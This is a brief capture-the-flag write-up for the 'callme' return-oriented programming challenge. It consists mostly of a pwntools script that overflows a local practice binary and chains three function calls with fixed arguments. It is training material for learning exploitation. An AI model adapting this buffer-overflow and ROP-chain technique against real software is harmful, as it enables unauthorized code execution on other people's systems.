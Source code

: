 # callme
multiple rop calls with multiple function arguments, (got stuck for a while but was using the wrong arguments)

We use `rop.call(<function_address>, [arg1, arg2, arg3]`

```text-x-python
from pwn import *

#declaring binaries, elf, libc
context.binary = binary = './callme'
elf = ELF(binary)
rop = ROP(elf)

#payload, symbols, rop chains, 
#function arguments [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]

padding = b'A'*40
rop.call(elf.symbols.callme_one,        [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])

rop.call(elf.symbols.callme_two,        [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])

rop.call(elf.symbols.callme_three,      [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])

payload = flat(
        padding, rop.chain())

#sending payload, process interaction
io = process(binary)

io.sendlineafter(b'> ', payload)

io.interactive()
```